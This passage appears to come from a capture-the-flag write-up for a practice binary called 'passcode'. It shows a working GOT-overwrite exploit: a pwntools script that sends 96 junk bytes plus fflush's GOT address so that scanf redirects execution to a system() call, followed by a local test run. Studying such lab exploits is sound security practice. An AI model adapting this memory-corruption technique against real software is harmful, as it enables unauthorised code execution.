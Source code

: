 Here ```fflush()``` is the perfect target for GOT Overwrite

For ```fflush()```,

```c
[0x804a004] fflush@GLIBC_2.0 -> 0x8048436 (fflush@plt+6) ◂— push   8
```

The GOT address of ```fflush()``` is ```0x804a004```

Now with 96 bytes of junk we will be passing this GOT value of ```fflush()``` so that our "input1" will be passed as argument to this ```fflush()```

ie. password1 = fflush;
    scanf("%d", fflush)

It becomes ```fflush(input)```

Now its time for exploit,

```c
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave
```
Here ```0x080485ea``` is the important function to display our flag, we will pass this to ```fflush(stdin)```

```c
ra@moni~/P/p/passcode> cat exploit.py
from pwn import *
data='A'*96
data+=p32(0x804a004)
data+=str(0x080485ea)
print(data)
```

Our ```payload = 96 bytes junk + GOT of fflush() + args for fflush() passed in scanf()```

```c
ra@moni~/P/p/passcode> python exploit.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04\x04134514154
ra@moni~/P/p/passcode> python exploit.py > exploit
ra@moni~/P/p/passcode> cat exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134514154
```

Now lets test it locally,

```c
ra@moni:~/PWNPractice/pwnable.kr/passcode$ cat exploit | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
sh: 1: Syntax error: word unexpected (expecting ")")
enter passcode1 : Now I can safely trust you that you have credential :)
```

